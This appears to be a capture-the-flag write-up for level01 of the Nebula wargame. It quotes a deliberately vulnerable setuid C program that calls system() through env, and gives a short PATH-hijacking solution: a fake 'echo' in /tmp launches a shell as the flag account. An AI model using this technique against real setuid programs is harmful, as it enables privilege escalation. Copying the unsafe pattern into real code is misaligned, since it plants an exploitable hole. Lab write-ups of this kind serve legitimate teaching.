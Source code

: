 # Level01

## Task

>There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

>To do this level, log in as the level01 account with the password level01. Files for this level can be found in /home/flag01.

```C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

## Solution

So the above code loads the users enviroment and then runs echo followed by a string, by modifying the `PATH` variable it can be exploited.

```
level01@nebula:/home/flag01$ export PATH=/tmp:$PATH
level01@nebula:/home/flag01$ echo "/bin/bash"  >> /tmp/echo
level01@nebula:/home/flag01$ chmod +x /tmp/echo
```

```
level01@nebula:/home/flag01$ ./flag01

flag01@nebula:/home/flag01$ getflag
You have successfully executed getflag on a target account
```
